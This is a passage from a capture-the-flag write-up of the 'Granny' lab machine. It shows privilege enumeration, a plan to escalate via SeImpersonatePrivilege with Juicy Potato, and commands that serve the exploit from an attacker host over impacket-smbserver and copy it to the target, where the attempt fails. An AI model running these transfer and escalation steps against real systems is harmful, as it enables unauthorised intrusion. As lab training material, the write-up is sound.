 > **Victime Machine**:

```cmd
whoami
ipconfig
```

<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The account I successfully engaged does not have many privileges to access different paths, but it has the **SeImpersonatePrivilege** enabled so I can use the **[Rotten Potato to Escalate Privileges](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/){:target="_blank"}**. I check the **OS** version and the **architecture** of the machine and I already have a doubt that the `juicyPotato.exe` from **[ohpe](https://github.com/ohpe/juicy-potato){:target="_blank"}** will work, but I will try it just in case. I just need to download the exploit on my machine and share it with `impacket-smbserver` to transfer it to the target machine and when I run it, it informs me that it does not work for this machine. In the list of **Windows CLSID** available in the **[ohpe](https://github.com/ohpe/juicy-potato){:target="_blank"}** page, the versions are listed and I check that the version of the **Granny** machine is not there.

> **Victime Machine**:

```cmd
whoami /priv
whoami /all
systeminfo
# OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
# System Type:               X86-based PC
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe .
mv JuicyPotato.exe JP.exe
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.56\smbFolder\JP.exe .\JP.exe
.\JP.exe
# The image file C:\WINDOWS\Temp\privesc\JP.exe is valid, but is for a machine type other than the current machine.
# :(

systeminfo
# OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
```
